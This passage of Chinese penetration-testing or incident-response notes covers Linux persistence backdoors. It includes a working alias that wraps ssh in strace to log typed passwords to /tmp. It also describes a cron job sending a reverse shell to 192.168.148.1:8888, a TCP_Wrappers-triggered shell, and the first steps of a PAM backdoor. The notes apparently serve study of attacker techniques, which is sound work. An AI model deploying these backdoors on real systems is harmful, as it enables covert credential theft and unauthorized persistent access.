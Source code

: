 ```
执行 ll 相当于执行 ls -l
alias ll=ls -l
```



ssh后门设计

```
在管理员使用ssh 时生效，后门将输入的 ssh 地址账号密码保存到/tmp/sshpwd-date.log 中strace命令可以跟踪进程运行时，系统调用和接受的信号

alias ssh='strace -o /tmp/sshpwd-`date '+%Y-%m-%H-%M-%S-%s'`.log -e read,write,connect -s2048 ssh'
```

![image-20230227193953034](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227193953034.png)



将别名bdoor设置为后门的别名

![image-20230227192951377](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227192951377.png)

成功拿到目标机的反弹shell

![image-20230227193040610](C:\Users\friendship\Desktop\Pentest_Interview\应急响应笔记\应急响应.assets\image-20230227193040610.png)





### 计划任务

每隔60分钟执行一次，将shell反弹到192.168.148.1:8888



### TCP_Wrappers

TCP_Wrappers是一个工作在应用层的安全工具。

以ssh为例，每当有ssh的连接请求时，tcpd (Tcp Wrapper的守护进程）即会截获请求，
当请求满足配置文件中的规则，则放行，否则中断连接，配置文件中可设置匹配规则后执行命令。

使用ssh连接目标服务器触发反弹shell



### PAM后门

PAM是一种认证机制，提供一套统一的API，可根据需要给不同的服务配置不同的认证方式。

添加后门：

1、查看本地PAM版本

```
apt list --installed | grep pam
```

2、下载解压对应版本的PAM源码

3、修改源码，添加后门代码
